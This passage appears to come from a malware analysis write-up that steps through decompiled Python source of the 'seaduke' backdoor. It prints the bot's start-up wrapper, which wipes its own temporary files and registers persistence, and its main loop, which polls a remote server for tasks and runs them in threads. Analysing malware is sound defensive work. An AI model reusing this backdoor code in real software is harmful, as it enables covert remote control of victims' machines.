 # 2) seh_wrapper
## doing seh_wrapper()
```python
def seh_wrapper():
    if botKlass.frozen:
        # _MEIPASS is the partial foldername where Python libraries are stored.
        # Cleaning up these directories to remove any remnants.
        attr__MEIPASS=getattr(sys,'_MEIPASS', None)
        botKlass.add_cleanup_dir(attr__MEIPASS)
        botKlass.do_cleanup_dirs()
    if botKlass.enable_autoload and not botKlass.autoload_registered:
        botActionKlass=BotSelfActionsKlass()
        botActionKlass.register()
    try:
        main()
    except KeyboardInterrupt as ki:
        sys_exit(0)
```
### first, it cleans up after itself
seaduke finds the temporary folder used by pysinstaller.
```python
attr__MEIPASS=getattr(sys,'_MEIPASS', None)  # https://stackoverflow.com/questions/22472124/what-is-sys-meipass-in-python
```
it then cleans up after itself with:
```python
def seh_wrapper():
    if botKlass.frozen:
        ...
        botKlass.add_cleanup_dir(attr__MEIPASS)
        botKlass.do_cleanup_dirs()
```
finally, it calls `main()`.

## main()
```python
def main():
    threadStuffKlass=DoingThreadStuffKlass()
    networkHandleKlass=NetworkHandlerKlass()
    while 1:
        gc_collect() # Garbage collector
        pass
        networkTasks=networkHandleKlass.get_tasks()
        pass
        if networkTasks:
            for networkTask in networkTasks:
                taskID=networkTask.get('task_id',None)
                taskData=networkTask.get('task_data',None)
                if taskID and taskData:
                    if not threadStuffKlass.have_task(taskID):
                        try:
                            threadStuffKlass.put(taskID,taskData)
                            botKlass.reset_tick_count()
                        except KeyboardInterrupt as ki:
                            time_sleep(5)
                            sys_exit(0)
                        except Exception as e:
                            pass
            time_sleep(random_randint(3,7))
        else:
            time_sleep(random_randint(*botKlass.update_interval))
            botKlass.tick_count+=1
```
### instantiate threads and network handler
we instantiate a `DoingThreadStuffKlass` object and a `NetworkHandlerKlass` object.
```python
def main():
    threadStuffKlass=DoingThreadStuffKlass()


class DoingThreadStuffKlass(object):
    def __init__(self):
        self.threads={}


class NetworkHandlerKlass(object):
    def __init__(self,**pSsWAYdKJqgPHbRoVCwjkvMcmtuxInGEhaFfLBXUOrNlTzDeiQ):
        self.__url=pSsWAYdKJqgPHbRoVCwjkvMcmtuxInGEhaFfLBXUOrNlTzDeiQ.get('url',None)
        self.user_agent=botKlass.user_agent
```